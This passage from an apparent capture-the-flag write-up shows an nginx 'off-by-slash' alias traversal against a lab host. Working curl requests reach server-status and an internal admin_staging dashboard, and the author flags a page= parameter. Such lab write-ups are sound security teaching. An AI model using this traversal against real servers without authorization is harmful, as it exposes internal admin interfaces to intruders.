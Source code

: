 
If I try to request the page with a `/../`, it doesn’t work:

    
    
    oxdf@parrot$ curl -I http://10.10.10.249/admin/../server-status
    HTTP/1.1 404 Not Found
    Server: nginx/1.14.2
    Date: Sat, 17 Jul 2021 19:21:02 GMT
    Content-Type: text/html; charset=iso-8859-1
    Connection: keep-alive
    Vary: Accept-Encoding
    

But using the off by slash, it does:

    
    
    oxdf@parrot$ curl -I http://10.10.10.249/admin../server-status
    HTTP/1.1 200 OK
    Server: nginx/1.14.2
    Date: Sat, 17 Jul 2021 19:21:18 GMT
    Content-Type: text/html; charset=ISO-8859-1
    Content-Length: 6242
    Connection: keep-alive
    Vary: Accept-Encoding
    Vary: Accept-Encoding
    

In Firefox:

![image-20210707131731884](https://0xdfimages.gitlab.io/img/image-20210707131731884.png)

In addition to seeing the urls I’ve been visiting, there’s also one at the top
that is interesting, `/admin_staging`. This page also shows that Apache is
listening on TCP 81 on localhost.

#### Admin Staging

Visiting `10.10.10.249/admin../admin_staging` actually returned a HTTP
redirect to `http://127.0.0.1:81/admin_staging/`, which then fails because I
can’t connect to localhost:81. It took me a minute to figure out what was
going on here. The request is passed by NGINX to
`http://127.0.0.1:81/admin/../admin_staging`. But because this is a directory,
it returns a 301 to the url with a `/` on the end (and normalizes it to
`/admin_staging` in the process).

Visiting `http://10.10.10.249/admin../admin_staging/` returns a new dashboard:

[
![image-20210707132900010](https://0xdfimages.gitlab.io/img/image-20210707132900010.png)
](https://0xdfimages.gitlab.io/img/image-20210707132900010.png)

[_Click for full
image_](https://0xdfimages.gitlab.io/img/image-20210707132900010.png)

The different links on the side lead to information that doesn’t seem useful.
But the URL structure is interesting. For example, User Profile leads to
`http://10.10.10.249/admin../admin_staging/index.php?page=user.php`.
